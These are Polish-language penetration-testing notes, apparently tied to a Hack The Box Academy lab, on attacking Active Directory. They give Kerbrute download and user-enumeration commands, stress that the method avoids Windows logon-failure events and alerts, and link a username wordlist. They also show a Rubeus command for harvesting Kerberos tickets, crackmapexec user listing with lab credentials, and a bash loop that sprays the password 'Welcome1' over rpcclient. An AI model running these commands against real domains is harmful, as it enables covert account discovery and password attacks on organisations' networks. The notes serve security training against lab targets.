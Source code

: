 # 1) Kerbrute (brute force to jedna ramka UDP to KDC nie generuje eventu zlego logowania)
### Info
To narzędzie wykorzystuje wstępne uwierzytelnianie Kerberos, które jest znacznie szybszym i potencjalnie bardziej niewidocznym sposobem przeprowadzania rozpylania haseł. Ta metoda nie generuje zdarzenia systemu Windows o identyfikatorze 4625: nie udało się zalogować do konta lub błąd logowania, który jest często monitorowany. Narzędzie wysyła żądania biletu TGT do kontrolera domeny bez wstępnego uwierzytelniania Kerberos w celu wyliczenia nazwy użytkownika. Jeśli KDC odpowie błędem PRINCIPAL UNKNOWN, nazwa użytkownika jest nieprawidłowa. Za każdym razem, gdy KDC monituje o wstępne uwierzytelnienie Kerberos, oznacza to, że nazwa użytkownika istnieje, a narzędzie oznaczy ją jako prawidłową. Ta metoda wyliczania nazwy użytkownika nie powoduje błędów logowania i nie blokuje kont. 

### Instalacja
      ▪ wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
      ▪ chmod +x kerbrute_linux_amd64
### Enumeracja uzytkownikow (wyslanie jednej ramki UDP do KDC)
      ▪ Nie powoduje to alarmow ani zadnych czerwonych logow
      ▪ ./kerbrute_linux_amd64 userenum --dc <domena> -d <adres domeny> <lista>
      ▪ ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

```console
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

# 2) Przydatne slowniki
      • Slownik
            ▪ https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/User.txt

# 3) Proste zabiegi
      • Rubeus (zbiera TGT wysylane do KDC co 30 sekund)
            ▪ .\Rubeus.exe harvest /interval:30 


# Wylistowanie userow jak mamy poprawne poswiadczenia
```console
crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
      
# Script Bash
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
![](enumBash.png)
      
      
      
      
      
      
      
      
      
